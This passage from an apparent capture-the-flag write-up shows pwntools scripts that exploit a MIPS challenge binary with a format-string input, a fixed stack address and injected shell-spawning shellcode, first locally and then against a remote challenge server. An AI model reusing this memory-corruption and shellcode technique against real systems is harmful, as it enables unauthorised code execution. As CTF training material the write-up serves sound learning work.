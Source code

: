 ```python
print(hexdump(shellcode))
print(len(shellcode))


stack_addr = p32(0x2b2ab1c4)
io.sendline(b'%6$5c%1$'+ str(shellcode_len).encode() + b'c')
io.sendline(stack_addr)
io.sendline(shellcode)
io.sendline(b'D'*100)

io.interactive()
```

We execute the script and successfully get a shell:
![[Pasted image 20240802232537.png]]

Now let's run this on remote:
```python
from pwn import *

context(arch='mips', bits=32, endian='big')

io = remote('0.cloud.chals.io', 12490)
#io = process(['qemu-mips-static', '-L', '.', './chall'])
#io = gdb.debug(args=['-L','.','./chall'], exe='./chall', gdbscript='''
#        break *main
#        break *main+88
#        break *0x2b2ab1c4
#
#        ''')


shellcode = asm(shellcraft.nop()) * 20
shellcode += asm(shellcraft.sh())

shellcode_len = len(shellcode)

print(hexdump(shellcode))
print(len(shellcode))


stack_addr = p32(0x2b2ab1c4)
io.sendline(b'%6$5c%1$'+ str(shellcode_len).encode() + b'c')
io.sendline(stack_addr)
io.sendline(shellcode)
io.sendline(b'D'*100)

io.interactive()
```

We run it, but this time we don't get a shell:
![[Pasted image 20240802232800.png]]
